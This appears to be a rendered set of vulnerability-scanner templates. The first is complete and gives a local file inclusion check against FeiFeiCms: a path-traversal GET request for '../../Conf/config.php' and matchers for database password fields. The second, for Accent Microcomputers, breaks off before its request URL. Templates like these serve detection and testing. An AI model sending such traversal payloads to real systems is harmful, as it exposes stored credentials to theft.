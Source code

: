 # FeiFeiCms - Local File Inclusion

## Description

- FeiFeiCms is vulnerable to local file inclusion.
- severity - high
- tags - feifeicms,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?s=Admin-Data-down&id=../../Conf/config.php

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<?php
  2. db_name
  3. db_pwd
  4. db_host
- condition - and
- part - body

---

# Accent Microcomputers LFI

## Description

- A local file inclusion vulnerability in Accent Microcomputers offerings could allow remote attackers to retrieve password files.
- severity - high
- tags - microcomputers,accent,lfi

## Requests

- Method - GET

### URL

